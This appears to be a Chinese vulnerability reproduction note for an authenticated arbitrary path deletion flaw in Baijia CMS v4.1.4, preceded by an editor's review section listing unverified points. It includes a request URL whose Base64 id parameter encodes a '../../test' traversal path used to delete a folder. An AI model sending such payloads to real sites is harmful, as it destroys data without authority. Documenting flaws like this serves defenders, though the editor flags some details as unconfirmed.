




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：backenddatabasepermission;Base64iddecodedpath; writabletargetdirectory

- **事实待核（1）**：所有图片复用远程上传条目同四图，机制完全不同需视觉核错配。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **操作与副作用边界（2）**：声明只能删路径但样例含test.txt且文件夹消失，应说明递归/清空行为和副作用。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **操作与副作用边界（3）**：无删除源码/响应，id../../test能否解析需回源验证。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **适用与权限边界（4）**：登录后台条件明确，与713匿名unlink不可合并同原语。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# 百家cms v4.1.4 任意路径删除漏洞

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    # 只能删除路径
    http://www.0-sec.org/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1

根目录下创建test文件夹，里面有内容为123的test.txt文件

访问payload将参数转为base64并方位payload

查看文件夹，已被删除

参考链接
--------

> https://xz.aliyun.com/t/7542
